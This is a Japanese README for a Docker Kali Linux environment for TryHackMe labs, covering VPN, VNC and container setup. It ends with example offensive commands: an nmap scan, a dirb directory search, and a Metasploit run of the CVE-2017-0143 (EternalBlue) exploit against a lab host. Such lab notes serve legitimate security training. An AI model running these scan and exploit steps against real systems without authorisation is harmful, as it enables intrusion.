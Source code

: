 ## 準備
- TryHackMeのサイトから `tryhackme.ovpn` をダウンロードして、このディレクトリに配置する。

## 起動
```shell
$ docker compose up -d
```

## コンテナに入る
```shell
$ docker compose exec kali /bin/bash
```

## VPN接続
コンテナ内で実行する。

```shell
┌──(kali㉿xxxxx)-[~]
└─$ sudo openvpn tryhackme.ovpn

# これが表示されたらVPN接続成功
Initialization Sequence Completed
```

## コンテナを停止
```shell
$ docker compose down
```

## VNCサーバー起動
```shell
$ vncserver -localhost no
```

## ホストからVNCサーバーに接続
- Finderでサーバーへ接続
- `vnc://localhost:5901`
- `kalilinux`

## VNCサーバーを停止
```shell
# ディスプレイ番号を確認
$ vncserver -list

# ディスプレイ番号を指定して停止
$ vncserver -kill :1
```


## ポートスキャン
```shell
$ nmap -sV -Pn -oN nmap.txt -v $IP
```

## 公開されたディレクトリの検索
```shell
$ dirb http://$IP
```

## エクスプロイト
CVE-2017-0143の例

```shell
$ msfconsole

msf6 > search cve-2017-0143
msf6 > use 0
msf6 > set RHOSTS $IP
msf6 > set LHOST $LHOST
msf6 > exploit
```

